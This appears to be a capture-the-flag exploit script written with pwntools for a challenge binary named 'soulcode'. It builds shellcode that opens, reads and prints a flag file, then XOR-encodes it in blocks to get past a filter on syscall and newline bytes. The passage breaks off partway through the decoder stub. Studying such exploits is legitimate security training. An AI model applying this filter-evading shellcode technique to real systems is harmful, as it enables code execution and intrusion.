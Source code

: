 full script : 

```cs
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./soulcode',checksec=False)

p = process()

BLOCK_SIZE = 8
filter_byte =  b'\xcd\x80\x0f\x05\x89\x00\x0a'

def find_key(shellcode,filter):
    for i in range(10000):
        key = os.urandom(8)
        s = b''
        for sh in shellcode:
            s += xor(key[:len(sh)],sh)
        if all(i not in s for i in filter):
            return key
    exit(-1)

original_shellcode = asm('''
            xor     rdx, rdx
                        xor     rax, rax
                        xor     rcx, rcx
                        mov     rax, 0x02
                        push    rcx
            mov     r10, 0x7478742e67616c66
            push    r10
                        mov     rdi, rsp
                        syscall
                ''')
# sys_read()
original_shellcode += asm('''
                        xor     rax, rax
                        mov     rsi, rdi
                        mov     rdi, 0x3
                        mov     dl, 0x30
                        syscall
                ''')
# sys_write()
original_shellcode += asm('''
                mov     rax, 0x1
                mov     rdi, 0x1
                syscall
            nop
            nop
            nop
            nop
            nop
        ''')
blocks = [original_shellcode[i:i+BLOCK_SIZE][::-1] for i in range(0, len(original_shellcode), BLOCK_SIZE)][::-1]
key = find_key(blocks,filter_byte)
blocks = ['0x'+xor(b,key[:len(b)]).hex() for b in blocks]
key = '0x' + key.hex()


shellcode = f"""
    xor rsi, rsi
    movabs rcx, {key}  # Đặt key vào rcx
```